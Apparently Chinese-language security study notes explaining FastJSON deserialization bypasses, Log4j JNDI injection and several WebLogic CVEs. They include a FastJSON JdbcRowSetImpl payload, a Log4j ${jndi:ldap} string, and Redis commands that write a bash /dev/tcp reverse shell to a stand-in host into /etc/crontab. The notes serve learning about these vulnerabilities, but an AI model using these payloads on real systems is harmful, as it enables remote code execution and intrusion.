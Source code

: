 **Q：HTTP Keep-Alive机制？**
A：`Connection: keep-alive/close`开启/关闭保持连接（长连接）。

## FastJSON反序列化漏洞

@type允许传入任意类名，并通过反序列化函数将json反序列化为类，com.sun.rowset.JdbcRowSetImpl允许rmi和idap协议，搭建二者之一的服务器和http服务器存放编译好的Java代码，即可在攻击时执行构造的代码。

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
```

二代加入checkAutoType函数对传入的类名进行黑名单过滤并限制长度，可以通过非黑名单函数`org.apache.ibatis.datasource.jndi.JndiDataSourceFactory`绕过；还可以绕过loadClass函数开头`L`结尾`;`被去掉然后正常执行。

三代嵌套反序列化，先做一个不在黑名单中的，使cache为True之后在load旧类时判断条件有`TypeUtils.getClassFromMapping(typeName) ！=null`后面直接从mapping中提出类并最终返回，没有通过黑名单测试。

## log4j

resolveVariable方法中resolver.lookup调用了lookup函数导致命令执行，通过log.info的方法传递进入的payload被执行`${jndi:ldap(rmi/dns)://127.0.0.1/exp}`

## weblogic

### SSRF（CVE-2014-4210）

`http://192.168.199.155:7001/uddiexplorer/`参数oprator应该执行了ping命令，返回值显示其后的地址是否可达，构造radis命令，将弹shell指令存入corntab。

```shell
set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/evil/21 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

`\r\n`是`%0d%0a`

### 远程代码执行（CVE-2023-21839）

漏洞的触发点在ForeignOpaqueReference.getReferent()

ForeignOpaqueReference继承自OpaqueReference，前面说过，当远程对象继承自OpaqueReference时，客户端在对该对象进行JNDI查找并获取的时候，服务器端实际上是通过调用远程对象的getReferent()方法来获取该对象的实际引用。所以，如果远程绑定了ForeignOpaqueReference对象，在lookup查询该对象时，就会调用ForeignOpaqueReference.getReferent()，所以这里我们只要控制var4与this.remoteJNDIName就能造成jndi注入。
var4的话，只要this.jndiEnvironment有值，就用this.jndiEnvironment的值对InitialContext进行初始化，this.jndiEnvironment也可以使用反射的方式进行赋值。

### wls-wsat XMLDecoder反序列化（CVE-2017-10271）

weblogic中的WLS组件接收到SOAP格式的请求后，未对解析xml后的类，参数等进行处理，一系列传入最后执行了`xmlDecoder.readObject`触发调用了类中的方法，产生漏洞。
跟进`readUTF`，在这里进行了`xmlDecoder.readObject`触发了`xmlDecoder`的反序列化，执行了`ProcessBuilder.start()`

